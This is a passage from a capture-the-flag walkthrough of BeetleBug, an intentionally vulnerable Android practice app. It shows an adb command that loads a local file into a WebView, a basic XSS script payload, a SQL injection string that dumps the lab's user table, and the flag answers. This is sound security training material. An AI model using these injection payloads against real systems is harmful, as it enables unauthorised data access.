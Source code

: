 ```text
.FlagsOverview
.MainActivity
.MainActivity$1
.Walkthrough
.adapter.SlideViewPagerAdapter
.adapter.SlideViewPagerAdapter$1
.adapter.SlideViewPagerAdapter$2
.ctf.BinaryPatchActivity
.ctf.WebViewURLActivity
.ctf.WebViewXSSActivity
.handlers.VulnerableContentProvider
.handlers.VulnerableContentProvider$DatabaseHelper
.home.AndroidComponentsHome
.home.BiometricFragmentHome
.home.DatabaseFragmentHome
.home.InsecureStorageFragmentHome
.home.SecretsFragmentHome
.home.SensitiveDataFragmentHome
.home.WebViewFragmentHome
.home.WebViewFragmentHome$1
.home.WebViewFragmentHome$2
.home.WebViewFragmentHome$3
.user.PlayerStats
.user.UserSignUp
```

**NOTE** `adb shell am start -n app.beetlebug/app.beetlebug.ctf.WebViewURLActivity --es reg_url "file:///android_asset/pwn.html"` cannot be display. Into decompiled APK, `assets/pwn.html`, there are `assets/pwn.png`

=> `adb shell am start -n app.beetlebug/app.beetlebug.ctf.WebViewURLActivity --es reg_url "file:///android_asset/pwn.png`

=> `0x33f3341`

## Flag 7 - JavaScript Code Injection (XSS)

Write into payload the classic

```js
<script>alert("Hello Worlds")</script>
```

The flag appears behind the send `0x66r9214`

## Flag 8 - SQL Injection

Try to execute SqlInjection.

The request is something like, to check user:

```sql
SELECT * FROM users WHERE username='<NAME>'; 
```
If we try the following name `' or 1=1; -- `:

```sql
SELECT * FROM users WHERE username='' or 1=1; -- '; 
```
=>

```text
User: (admin) pass: (passwd123) Credit Card: (1234567812345678)
User: (beetle-bug) pass: (flg) Credit Card: (0x91334Z1)
```

Flag => `0x91334Z1`

## Flag 9 - Firebase Database Misconfiguration